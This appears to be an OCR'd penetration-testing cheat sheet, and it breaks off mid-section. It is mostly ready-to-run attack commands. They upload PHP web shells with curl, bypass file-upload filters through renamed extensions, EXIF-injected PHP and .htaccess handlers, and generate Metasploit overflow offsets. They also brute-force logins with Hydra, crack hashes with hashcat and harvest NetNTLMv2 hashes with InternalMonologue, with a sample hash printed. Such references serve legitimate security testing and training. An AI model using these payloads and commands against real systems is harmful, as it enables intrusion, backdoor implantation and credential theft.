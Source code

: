 # POST file
curl -X POST -F "file=@/file/location/shell.php" http://$TARGET/upload.php --cookie "cookie"
​
# POST binary data to web form
curl -F "field=<shell.zip" http://$TARGET/upld.php -F 'k=v' --cookie "k=v;" -F "submit=true" -L -v
PUTing File on the Webhost via PUT verb
curl -X PUT -d '<?php system($_GET["c"]);?>' http://192.168.2.99/shell.php
Generating Payload Pattern & Calculating Offset
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2000
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q $EIP_VALUE
Bypassing File Upload Restrictions
file.php -> file.jpg
file.php -> file.php.jpg
file.asp -> file.asp;.jpg
file.gif (contains php code, but starts with string GIF/GIF98)
00%
file.jpg with php backdoor in exif (see below)
.jpg -> proxy intercept -> rename to .php
Injecting PHP into JPEG
exiv2 -c'A "<?php system($_REQUEST['cmd']);?>"!' backdoor.jpeg
exiftool “-comment<=back.php” back.png
Uploading .htaccess to interpret .blah as .php
AddType application/x-httpd-php .blah
Cracking Passwords
Cracking Web Forms with Hydra
hydra 10.10.10.52 http-post-form -L /usr/share/wordlists/list "/endpoit/login:usernameField=^USER^&passwordField=^PASS^:unsuccessfulMessage" -s PORT -P /usr/share/wordlists/list
Cracking Common Protocols with Hydra
hydra 10.10.10.52 -l username -P /usr/share/wordlists/list ftp|ssh|smb://10.0.0.1
HashCat Cracking
# Bruteforce based on the pattern;
hashcat -a3 -m0 mantas?d?d?d?u?u?u --force --potfile-disable --stdout  
​
# Generate password candidates: wordlist + pattern;
hashcat -a6 -m0 "e99a18c428cb38d5f260853678922e03" yourPassword|/usr/share/wordlists/rockyou.txt ?d?d?d?u?u?u --force --potfile-disable --stdout
​
# Generate NetNLTMv2 with internalMonologue and crack with hashcat
InternalMonologue.exe -Downgrade False -Restore False -Impersonate True -Verbose False -challange 002233445566778888800
# resulting hash
spotless::WS01:1122334455667788:26872b3197acf1da493228ac1a54c67c:010100000000000078b063fbcce8d4012c90747792a3cbca0000000008003000300000000000000001000000002000006402330e5e71fb781eef13937448bf8b0d8bc9e2e6a1e1122fd9d690fa9178c50a0010000000000000000000000000000000000009001a0057005300300031005c00730070006f0074006c006500730073000000000000000000
​
# crack with hashcat